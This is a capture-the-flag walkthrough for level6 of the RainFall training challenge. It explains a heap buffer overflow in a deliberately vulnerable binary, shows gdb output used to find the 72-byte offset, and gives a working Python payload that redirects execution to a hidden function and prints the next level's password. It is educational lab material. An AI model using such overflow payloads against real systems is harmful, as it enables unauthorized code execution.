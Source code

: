 # level6

```sh
➜  ~ ssh level6@127.0.0.1 -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_v|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on 10.0.2.15:4242
level6@127.0.0.1's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
level6@RainFall:~$
```

# [Garp](https://youtu.be/vmSSfB2dcB8?si=sujn8Ga-NeHYkQq4) ---> Best character

```sh
level6@RainFall:~$ ./level6 'Joyboy... Has returned !'
Nope
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$ 
```

![binary 6](Ressources/binery_6-hex-rays.png)

- The `main` function declares 2 variable and allocate memory for them : `v5` `0x40u` (64 bytes) and `v6` `0x4u` (4 bytes) and `v4` call the `m` function, then the `strcpy` function is call. It copy the first argument `argv[1]` in `v5`. **`v5` has a buffer of 64 bytes**.
- `m` return the function `puts` with the string "`Nope`" only.
- The hidden and non-used function `n` return `system("/bin/cat /home/user/level7/.pass")`.

# Vulnerability : <u>Heap Buffer overflow Attack</u>

(__It's ridiculous...__)

**Objective** : Overflow the buffer (stocked in the heap) to call the hidden function `n`

## 1. Find the offset to reach the return address (for more details how to find the offset, see the [level2 walkthrough](https://github.com/Nimpoo/rainfall/tree/main/level2))

**A heap buffer overflow** is a type of buffer overflow that occurs in the heap data area. Heap overflows are exploitable in a different manner to that of stack-based overflows. Memory on the heap is dynamically allocated by the application at runtime and typically contains program data. Exploitation is performed by corrupting this data in specific ways to cause the application to overwrite internal structures such as linked list pointers. The canonical heap overflow attack involves causing the application to overwrite a function pointer or exception handler, which is then executed.

```sh
# Example of a heap buffer overflow attack
./vulnerable_program $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
```

```sh
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/level6/level6 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
(gdb)
```

### Offset = 72

## 2. Find the address of the hidden function `n`

```sh
(gdb) print n
$1 = {<text variable, no debug info>} 0x8048454 <n>
(gdb)
```

### Address of `n` = `0x8048454` (`\x54\x84\x04\x08`)

## 3. Construct the payload

```sh
level6@RainFall:~$ ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
level6@RainFall:~$
```

# ??????? SO EASY ???????

Let's go to the next level I supposed...

```sh
level6@RainFall:~$ su level7
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7
level7@RainFall:~$
```

# level6 complet !
![yeah](../assets/yeah.gif)
